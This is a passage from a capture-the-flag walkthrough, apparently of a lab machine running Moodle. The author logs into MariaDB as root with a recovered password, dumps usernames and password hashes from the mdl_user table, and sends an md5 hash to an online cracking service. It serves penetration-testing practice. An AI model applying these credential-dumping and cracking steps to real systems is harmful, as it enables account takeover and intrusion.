 ### Connect to DB

I can use that password to connect to the database and explore. In the user table, there’s one entry that stands out:

```

www-data@teacher:/var/www/html/moodle$ mysql -u root -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 709
Server version: 10.1.26-MariaDB-0+deb9u1 Debian 9.1

Copyright (c) 2000, 2017, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| moodle             |
| mysql              |
| performance_schema |
| phpmyadmin         |
+--------------------+
5 rows in set (0.00 sec)

MariaDB [(none)]> use moodle
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [moodle]> select username,password from mdl_user;
+-------------+--------------------------------------------------------------+
| username    | password                                                     |
+-------------+--------------------------------------------------------------+
| guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |
| admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |
| giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |
| Giovannibak | 7a860966115182402ed06375cf0a22af                             |
+-------------+--------------------------------------------------------------+

```

While the first three passwords look like blowfish, the last one, Giovannibak is an md5 hash. I can drop it into [crackstation](https://crackstation.net/) and get the password:

![1543948091985](https://0xdfimages.gitlab.io/img/1543948091985.png)

### su giovanni
